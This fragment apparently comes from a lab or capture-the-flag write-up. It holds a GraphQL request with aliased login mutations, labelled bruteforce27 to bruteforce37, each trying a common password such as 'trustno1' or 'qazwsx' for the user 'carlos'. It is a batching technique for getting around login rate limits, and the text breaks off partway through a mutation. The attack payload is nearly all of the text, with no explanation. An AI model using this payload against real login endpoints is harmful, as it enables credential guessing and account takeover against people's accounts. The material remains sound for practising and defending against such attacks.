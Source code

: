 ```bash


bruteforce27:login(input:{password: "7777777", username: "carlos"}) {
        token
        success
    }


bruteforce28:login(input:{password: "121212", username: "carlos"}) {
        token
        success
    }


bruteforce29:login(input:{password: "000000", username: "carlos"}) {
        token
        success
    }


bruteforce30:login(input:{password: "qazwsx", username: "carlos"}) {
        token
        success
    }


bruteforce31:login(input:{password: "123qwe", username: "carlos"}) {
        token
        success
    }


bruteforce32:login(input:{password: "killer", username: "carlos"}) {
        token
        success
    }


bruteforce33:login(input:{password: "trustno1", username: "carlos"}) {
        token
        success
    }


bruteforce34:login(input:{password: "jordan", username: "carlos"}) {
        token
        success
    }


bruteforce35:login(input:{password: "jennifer", username: "carlos"}) {
        token
        success
    }


bruteforce36:login(input:{password: "zxcvbnm", username: "carlos"}) {
        token
        success
    }


bruteforce37:login(input:{password: "asdfgh", username: "carlos"}) {
```